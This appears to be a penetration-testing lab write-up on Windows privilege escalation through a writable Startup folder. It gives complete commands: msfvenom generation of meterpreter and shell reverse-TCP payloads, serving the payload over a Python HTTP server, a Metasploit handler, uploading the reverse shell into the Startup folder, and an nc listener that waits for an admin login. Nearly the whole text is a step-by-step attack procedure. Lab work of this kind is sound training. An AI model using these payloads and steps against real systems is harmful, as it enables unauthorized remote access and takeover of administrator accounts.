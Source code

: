 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
Startup Applications:

Generate the payload:
msfvenom -a x64 --platform windows -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.121.131 LPORT=4445 -f exe -o start_app_payload.exe

Let the target run the payload:
sudo python3 -m http.server 8080

Spin up metasploit:
msfconsole
use exploit/multi/handler
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST=192.168.121.131
 - set LPORT=4445
run

Wait for the reverse connection after the target execute the payload:

Connected:
meterpreter> getuid
shell (to become windows shell)

Find the vulnerability for startup programs located on:
cd C:\ProgramData\Microsoft\Windows\Start Menu\Programs

To check the permission of this folder:
icacls.exe startup
 - startup BUILTIN\Users:(OI)(CI)(F) - full access for user

Exit from shell:
exit

Let the listener run on the background:
background
 - sessions -i <session#> (go back to the session)
 - sessions -k <session#> (kill sessions)

Escalate Privilege by first creating a new payload and listener which is unstaged/shell (not meterpreter):
msfvenom -a x64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=192.168.121.131 LPORT=4445 -f exe -o su_shell_payload.exe

Go back to the meterpreter session:
meterpreter > cd "C:\ProgramData\Microsoft\Windows\StartMenu\Programs\Startup"
 - Startup folder is where we have full access as user
 - We can upload a file from our kali to it

Upload the shell payload:
meterpreter > upload -f /home/kali/file1.exe su_shell_payload.exe
 - dir

Setup listener:
nc -nlvp 4445

In Gavin, logoff from the current user. Log back in as admin
 - Simulate when an admin login to their machine

Go back to the terminal

Conclusion:
In this lab, we are able to get the Admin privilege by leveraging the weak permission in StartupApplications. By default,all binaries in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup” folders are executed by a Windows hostautomatically. Since we have a write permission to the Startupfolder, we just droppedour reverse shell payload and waited for an admin to login to get an Admin-level privilege.



